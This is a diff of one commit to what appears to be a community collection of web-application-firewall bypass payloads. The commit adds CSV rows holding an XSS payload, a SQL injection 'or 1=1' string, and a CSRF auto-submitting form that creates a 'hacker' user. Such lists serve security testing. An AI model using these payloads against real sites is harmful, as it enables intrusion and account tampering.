

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Added new Bypasses

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -491 +491,4 @@ https://twitter.com/g1nk00/status/1735407588529913969,"&amp;#60;script&amp;#62;a
 https://twitter.com/TheMsterDoctor1/status/1743187595163501005,"&lt;dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt,a(origin)%20x&gt;",xss
+https://vulners.com/github/GHSA-GP6M-FQ6H-CJCX?utm_source=rss&utm_medium=rss&utm_campaign=rss,"&lt;img src=x onerror=alert(1)&gt;.crt",xss
+https://vulners.com/cve/CVE-2024-1923?utm_source=rss&utm_medium=rss&utm_campaign=rss," 1337&#x27;+or+1=1;--+",sqli
+https://vulners.com/github/GHSA-PGPJ-V85Q-H5FM?utm_source=rss&utm_medium=rss&utm_campaign=rss,'&lt;html&gt; &lt;body&gt; &lt;form action="http://localhost:8000/api/add_user/%22hacker%22,%22hacker%22"&gt; &lt;input type="submit" value="Submit request" /&gt; &lt;/form&gt; &lt;script&gt; history.pushState('', '', '/'); document.forms[0].submit(); &lt;/script&gt; &lt;/body&gt; &lt;/html&gt;',xss
```
